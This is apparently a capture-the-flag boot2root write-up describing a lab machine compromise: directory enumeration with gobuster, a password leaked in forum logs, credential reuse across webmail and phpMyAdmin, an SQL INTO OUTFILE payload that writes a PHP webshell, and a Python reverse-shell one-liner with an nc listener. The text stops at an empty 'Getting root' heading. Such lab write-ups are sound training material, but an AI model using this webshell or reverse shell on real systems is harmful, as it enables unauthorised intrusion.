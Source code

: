 # boot2root

## Getting code execution
I didnt had nmap installed at first so i went on checking common ports:
- 21 ftp
- 22 ssh
- 80 http
- 443 https

Could not login as anonymous to the ftp server.  
http returned a page with no info what so ever so i fired up gobuster and runned it:
```
$ gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://192.168.56.102
/forum                (Status: 403) [Size: 287]
/fonts                (Status: 301) [Size: 316] [--> http://192.168.56.102/fonts/]
/server-status        (Status: 403) [Size: 295]
$ gobuster dir -k -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u https://192.168.56.102
/forum                (Status: 301) [Size: 318] [--> https://192.168.56.102/forum/]
/webmail              (Status: 301) [Size: 320] [--> https://192.168.56.102/webmail/]
/phpmyadmin           (Status: 301) [Size: 323] [--> https://192.168.56.102/phpmyadmin/]
/server-status        (Status: 403) [Size: 296]
```

The /forum is a `my little forum` forum, we get many dummy post and what seems like a snippet of the machine syslog.  
As usual we get many unsucessful ssh login attempt etc... but one user managed to log in: lmezard (and admin).  
Right above we see an unsucessfull login attempt as user `!q\]Ej?*5K5cy*AJ` since the post originated from lmezard and is title `Probleme login ?` we deduced it's related to this unsucessfull login attempt.  
My guess is that the user inputed his password instead of his login and well it is the case since we are able to login with `lmezard/!q\]Ej?*5K5cy*AJ`.  
Going into the `my little forum` lmezard account we get an email wich we can use to login to the webmail server (same password) `laurie@borntosec.net/!q\]Ej?*5K5cy*AJ`  
On the server mail we get credentials wich we can use to login into the phpmyadmin website: `root/Fg-'kKXBj87E:aJ$`  
With phpmyadmin we can do an sql request to create a php file to get a webshell (into a reverse shell (didnt manage to get the reverse shell directly).  
Go to phpmyadmin, select `forum_db` database, click on sql, paste the following payload and click `Go`.  
```
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY></HTML>"
INTO OUTFILE '/var/www/forum/templates_c/webshell.php'
```

phpmyadmin directory seems readonly so i choose this directory that clearly seems writeable by it's content
Then we can access `https://192.168.56.102/forum/templates_c/webshell.php` and input command.  
A quick `python -c "print 'A'" confirmed me that python was installed and so we could do a reverse shell by pasting the following command and listening on port 8000 on our end:
```
$ export RHOST="192.168.56.1";export RPORT=8000;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
```
$ nc -lnvp 8000
```

As expected we are www-data and have now a shell.  
// lol The command execution part is now finished (there is a file in /home directory (/home/LOOKATME/password) wich contains lmezard ssh creds

## Getting root


